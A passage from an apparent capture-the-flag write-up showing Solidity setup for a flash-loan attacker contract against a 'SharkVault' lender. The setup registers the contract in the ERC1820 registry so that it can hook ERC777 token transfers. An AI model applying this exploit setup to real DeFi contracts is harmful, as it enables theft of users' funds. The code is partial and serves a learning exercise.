 
So here is the call I made :


```solidity
ERC1820Registry registry = ERC1820Registry(REGISTRY);
registry.setInterfaceImplementer(address(flashLoan), 0xb281fc8c12954d22544db45de3159a39272895b169a852b314f9cc762e44c53b, address(flashLoan));
```


but I felt onto:


![](https://prod-files-secure.s3.us-west-2.amazonaws.com/00345c33-b7f7-443a-aca8-598247fb6d93/8df87b9b-3bbf-40b6-a273-28ceb0f98bd3/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20240214%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20240214T171227Z&X-Amz-Expires=3600&X-Amz-Signature=c6bc3b5663403f22e54075e4d3a65e6907b1ac1a9d30995d1d5619bde5b3ba95&X-Amz-SignedHeaders=host&x-id=GetObject)


Question: who is the manager ?


It turns out that a contract is its own manager ! hehe


So I moved my code inside my FlashLoan attacker 😈


And here is a first peek at my set up:


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

// Here we can find the standard interface for the ERC20. Don't forget that we find
// out that the seagold is actually an ERC777 token !
interface IERC20 {
    event Transfer(address indexed from, address indexed to, uint256 value);
    event Approval(address indexed owner, address indexed spender, uint256 value);
    function totalSupply() external view returns (uint256);
    function balanceOf(address account) external view returns (uint256);
    function transfer(address to, uint256 value) external returns (bool);
    function allowance(address owner, address spender) external view returns (uint256);
    function approve(address spender, uint256 value) external returns (bool);
    function transferFrom(address from, address to, uint256 value) external returns (bool);
}

// This is the registry that tells for a given contract which interface its supports
// There is a getter and a setter.
// The manager of a contrat is the contract itself by default.
interface ERC1820Registry {
	function getInterfaceImplementer(address _addr, bytes32 _interfaceHash) external view returns (address);
  function setInterfaceImplementer(address _addr, bytes32 _interfaceHash, address _implementer) external;
}

// This is the vault we are going to attack
interface SharkVault {
    // The Shark charges predatory interest rates...
    function INTEREST_RATE_PERCENT() external returns(uint256);

    function gold() external returns(address);
    function seagold() external returns(address);

    struct LoanAccount {
        uint256 depositedGold;
        uint256 borrowedSeagold;
        uint256 lastBlock;
    }
    function depositGold(uint256 _amount) external ;
    function withdrawGold(uint256 _amount) external payable;
```